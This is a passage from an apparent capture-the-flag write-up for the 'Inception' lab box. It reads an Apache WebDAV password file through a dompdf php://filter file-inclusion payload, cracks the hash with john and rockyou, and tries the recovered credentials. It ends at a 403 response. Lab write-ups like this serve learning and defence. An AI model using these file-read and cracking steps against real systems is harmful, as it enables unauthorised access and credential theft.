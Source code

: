 ```bash
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        Alias /webdav_test_inception /var/www/html/webdav_test_inception
        <Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
                Require valid-user
        </Location>
</VirtualHost>
```

This file mentions something about:
- Virtualhosting being done at port 80 by server-admin `webmaster@localhost`. 
- Webroot is `/var/www/html`
- webdav test credentials residing in ``/var/www/html/webdav_test_inception/webdav.passwd``

```bash
$ file='/var/www/html/webdav_test_inception/webdav.passwd';curl -s http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$file | strings -n 50 | awk -F'(' '{print $2}' | awk -F')' '{print $1}'  | base64 -d | grep -v '#'/inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/r
webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0
```

Cracking hash with `john`:
```bash
$ john hash -w:/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
babygurl69       (webdav_tester)
1g 0:00:00:00 DONE (2021-07-28 18:32) 3.333g/s 74880p/s 74880c/s 74880C/s mondragon..220190
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I was adding `webmaster@localhost` to my /etc/hosts first as it said something of virtual-hosting; being dumb. (@localhost will always try to fetch local server)
I got hostname through `/etc/hosts` as `Inception`, I added `webmaster@inception` to my /etc/hosts. That made no change that's because there isn't any hostname defined as such webmaster@localhost is just the admin for webdav and not a host.

Accessing [http://inception.htb/webdav_test_inception](http://inception.htb/webdav_test_inception) prompted me for an authentication.
Giving username and password as `webdav_tester:babygurl69` works well.

But after logging in, it gives 403 forbidden message:
```bash
$ curl http://webdav_tester:babygurl69@inception.htb/webdav_test_inception/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /webdav_test_inception/
on this server.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at inception.htb Port 80</address>
</body></html>
```